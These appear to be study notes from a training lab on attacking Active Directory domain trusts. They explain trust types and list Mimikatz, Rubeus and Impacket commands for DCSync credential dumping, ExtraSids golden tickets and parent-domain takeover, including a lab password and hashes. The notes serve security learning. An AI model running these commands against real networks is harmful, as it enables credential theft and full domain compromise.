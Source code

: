 # domain trusts

    Parent-child: Two or more domains within the same forest. The child domain has a two-way transitive trust with the parent domain, meaning that users in the child domain corp.inlanefreight.local could authenticate into the parent domain inlanefreight.local, and vice-versa.
    Cross-link: A trust between child domains to speed up authentication.
    External: A non-transitive trust between two separate domains in separate forests which are not already joined by a forest trust. This type of trust utilizes SID filtering or filters out authentication requests (by SID) not from the trusted domain.
    Tree-root: A two-way transitive trust between a forest root domain and a new tree root domain. They are created by design when you set up a new tree root domain within a forest.
    Forest: A transitive trust between two forest root domains.
    ESAE: A bastion forest used to manage Active Directory.
- transitive trust establishes trust to child objects
- non-transitive only the direct transitive trust is trusted
```powershell
Import-Module ActiveDirectory
Get-ADTrust -Filter *
# powerview
get-DomainTrust
# if the trust is transitive we can enumerate the child domains with powerview
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
# enumerate trusts with netdom 
netdom query /domain:inlanefreight.local trust
# find domain controllers with accounts linked to this domain
netdom query /domain:inlanefreight.local dc
# workstation and servers
netdom query /domain:inlanefreight.local workstation
```
## sid history
Security Identifiers SID can be injected on an account so their token can have other privileges. SIDHistory is generally used for migration so accounts can be moved to another domain/forest and still have the same SIDs giving them access to the original domain.
# ExtraSids Attack -Mimikatz
- compromise the parent domain once the child domain is compromised
- Sid Filtering can protect against confusion accross forests and domains
- example if a user has the SID in their history for Enterprise admins which only exists on the parent domain, they will have complete forest control
### need
1. KRBTGT hash of the child domain
2. SID of the child domain
3. name of target user (can be nonexistant)
4. FQDN of child domain
5. SID of the Enterprise Admins group on parent domain
6. mimikatz
- get the KRBTGT hash of the child domain using mimikatz or rubedogg
```powershell
# mimikatz
log log.file
lsadump::dcsycn /user:LOGISTICS\krbtgt
# use powerview to get Domain SID
Get-DomainSID
# Get Enterprise Admins SID with Powerview or #Get-ADGroup
# Powerview
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select objectsid
# Active Directory
Get-ADGroup -Identity "Enterprise Admins" -Server INLANEFREIGHT.LOCAL | select SID > inlanefreight.enterpriseadmins.sid
# mimikatz golden ticket using sids for inlane freight enterprise admin sid
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

# same attack using Rubedogg
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

# then we can do a dcsync as a domain admin account on the parent domain
# mimikatz
lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

# Attacking domain trusts with linux

```bash
# using secretsdump.py to do a dcsync to get the hash of the krbtgt account
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
# with password and output file
secretsdump.py logistics.inlanefreigt.local/htb-student_adm:'HTB_@cademy_stdnt_admin!'@172.16.5.240 -just-dc-user LOGISTICS/krbtgt -outputfile logistics.krbtgt
# brute force the sids to get the child domain sid
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
# with password and output file
lookupsid.py logistics.inlanefreight.local/htb-student_adm:'HTB_@cademy_stdnt_admin!'@172.16.5.240 | grep "Domain SID" > logistics.domain.sid

# get the enterprise admins sid using the command and add it to the domain (parent) sid with -<ent admins sid>
  
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
# create golden ticket with ticketer.py
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
# because we are on linux it will save to a ccache file 
export KRB5CCNAME=hacker.ccache 
# then use psexec from impacket to connect to the DC
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

# raiseChild.py does the whole thing in one shebang
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

# get the bross adminstrator hash from the parent domain with secretsdump.py
secretsdump.py hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-user bross
```

